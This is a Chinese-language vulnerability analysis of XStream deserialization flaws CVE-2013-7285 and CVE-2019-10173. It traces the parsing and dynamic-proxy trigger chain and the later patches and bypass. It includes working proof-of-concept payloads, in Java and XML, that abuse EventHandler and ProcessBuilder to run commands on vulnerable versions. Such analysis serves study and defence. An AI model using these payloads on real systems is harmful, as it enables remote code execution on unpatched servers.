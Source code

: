 # Xstream CVE-2013-7285&CVE-2019-10173 反序列化
- [Xstream CVE-2013-7285&CVE-2019-10173 反序列化](#xstream-cve-2013-7285cve-2019-10173-反序列化)
  - [前置知识](#前置知识)
  - [Xstream解析流程](#xstream解析流程)
  - [CVE-2013-7285](#cve-2013-7285)
    - [DynamicProxyConverter](#dynamicproxyconverter)
    - [Stored-Set](#stored-set)
    - [tree-map](#tree-map)
  - [1.4.7 补丁](#147-补丁)
  - [CVE-2019-10173  ---> 1.4.10 Bypass](#cve-2019-10173------1410-bypass)
  - [1.4.11 补丁](#1411-补丁)
  - [参考](#参考)
## 前置知识

Xstream主要是从将java对象反序列化为XML或者XML反序列化为JAVA对象.

```java
import com.thoughtworks.xstream.XStream;

public class Codelab {

    public static class test{
        public int age;
        public String name;
        public void setAge(int age) {
            this.age = age;
        }
        public void setName(String name){
            this.name = name;
        }
        public int getAge(){
            return this.age;
        }
        public String getName(){
            return this.name;
        }
    }
    public static void main(String[] args) {
        XStream stream = new XStream();
        test test = new test();
        test.setAge(20);
        test.setName("tt");
        String xml = stream.toXML(test);
        System.out.println(xml);
        System.out.println("===============================");
        test test2 = (test)stream.fromXML(xml);
        System.out.println(test2);
    }
}
```

结果如下

```
<Codelab_-test>
  <age>20</age>
  <name>tt</name>
</Codelab_-test>
===============================
Codelab$test@527740a2

Process finished with exit code 0
```
## Xstream解析流程

直接来到`com/thoughtworks/xstream/core/TreeUnmarshaller.java`的`start`方法,在这之前的调用栈如下

![image-20211028231425608](image-20211028231425608.png)

主要是初始化一个Xpath的解析上下文`context`,注册了一些转换器到该`context`中,最后调用`context.start`方法开始解析xml数据,解析核心即根据标签来寻找内置的`convert`转换器,转换器再通过其`unmarshal`方法来获取对应的对象,然后再遍历子节点来获取对应的参数,最后设置好参数后返回.

## CVE-2013-7285

Xstream的转换器中有一个为`DynamicProxyConverter`的转换器,即支持将XML内的数据转换为动态代理类.而当程序调用了`dynamic-proxy`标签内的`interface`标签指向的接口类声明的方法时,就会通过动态代理机制代理访问`dynamic-proxy`标签内`handler`标签指定的类方法,利用这个机制,攻击者可以构造恶意的XML内容,即`dynamic-proxy`标签内的`handler`标签指向如`EventHandler`类这种可实现任意函数反射调用的恶意类,`interface`标签指向目标程序必然会调用的接口类方法,最后当攻击者从外部输入该恶意XML内容后即可触发反序列化漏洞,达到任意代码执行的目的.

**影响范围:**

1.4.x<=1.4.6 or 1.4.10

**POC:**
```java
      XStream stream = new XStream();
        String xml =                 "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "        <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "            <action>start</action>\n" +
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>";

        stream.fromXML(xml);
```
该POC适用于1.4.5和1.4.6和1.4.10版本,因为低于1.4.x系列没有`Stored-set`标签.而<1.4.5以下时`sortedMapField`变量默认为null,而该变量决定了是否后续会进行调用指定接口的`populateTreeMap`方法,为null会导致无法进入该方法从而无无法调用接口触发动态代理.
### DynamicProxyConverter

该转换器的`unmarshal`方法关键如下,获取节点为`interface`标签的值所指定的接口(即java.lang.Comparable),将其放入一个数组中,后续再转化为Class对象数组用于创建动态代理,然后继续再遍历子节点,当遇到`handler`标签时,再通过`handler`标签获取动态代理类的调度处理器Handler(即java.beans.EventHandler).

![](2021-11-10-11-34-52.png)

然后通过`Proxy.newProxyInstance`创建一个代理.
![](2021-11-10-12-00-31.png)
在转化调度处理器为java对象时继续使用`context.convertAnother`,在`convertAnother`中在mapper中遍历获取到`EventHanlder`对应的转换器为`ReflectionConverter`即反射转换器,然后传入`convert`中进行转换.
![](2021-11-10-12-12-10.png)
在`convert`中进行了一个缓存操作,然后判断有无`reference`标签,无的话根据当前的引用(`/sorted-set/dynamic-proxy/handler`)调用父类的`convert`进行转换得到result.
![](2021-11-10-12-20-46.png)
在父类的`convert`里最后来到`instantiateNewInstance`中利用反射返回了我们指定的`EventHandler`class对象.
![](2021-11-10-12-24-14.png)
后续操作则是类似操作,继续根据子节调用转换器转换对应的class对象(如target指定的`java.lang.ProcessBuilder`)和调用对应转换器获取我们设置action和参数.
获取到参数之后会返回`AbstractReflectionConverter.java`中的`doUnmarshal`中再利用反射设置`ProcessBuilder`对应的参数,至此动态代理类则设置完毕,等待触发.
![](2021-11-10-12-32-24.png)
### Stored-Set
而代理类触发则需要对应的接口被调用,在poc中设置的接口为`java.lang.Comparable`,而触发该接口的点在于Poc中的`stored-set`标签,该标签的类型为`java.util.SortedSet`,即一个有序集合,而对应的转换器则为`TreeSetConverter`.
![](2021-11-11-00-03-45.png)  
该`convert`会读取`stored-set`标签下的子节点,根据子节点对应的convert来反序列化其获取对应的对象,然后将其放入一个集合中,第一个元素即为我们指定的动态代理程序,而在第二个元素即我们写入的string字符串`foo`,放入集合时就会调用`putall`方法.
![](2021-11-11-10-48-43.png)
而在该方法中实现了`java.lang.Comparable`接口的方法compareTo用于将两个元素进行比较,从而触发之前的动态代理程序.
![](2021-11-11-10-49-07.png)
触发过程
![](2021-11-11-10-51-39.png)
### tree-map
根据触发的方式不同还有一种利用`tree-map`标签来触发代理程序,原理类似也是调用了`putall`方法触发,而该版本可以通杀1.4.6以下的1.4.x系列和1.4.10,该poc不受`sortedMapField`变量的限制.
```xml
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
## 1.4.7 补丁
在1.4.6之后在`ReflectionConverter.canConvert()`中增加了黑名单过滤,对`EventHanlder`类进行了过滤.
![](2021-11-11-10-56-20.png)
## CVE-2019-10173  ---> 1.4.10 Bypass 
在1.4.10版本,该过滤被去掉了,因为官方添加了一个安全框架可以手动进行设置白名单和黑名单,但该框架默认并未开启,但之前的过滤代码却被删除了,导致了Bypass.
![](2021-11-11-16-20-06.png)
## 1.4.11 补丁
在1.4.11之后未了防止忘记使用安全框架,又继续内置了一个`InternalBlackList`黑名单类的一个转化器,会对`EventHandler`等类进行判断,检测成功则抛出异常.
![](2021-11-11-18-00-00.png)
![](2021-11-11-18-00-29.png)
## 参考

https://www.cnblogs.com/nice0e3/p/15046895.html  
https://xz.aliyun.com/t/10001  
https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x02-XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E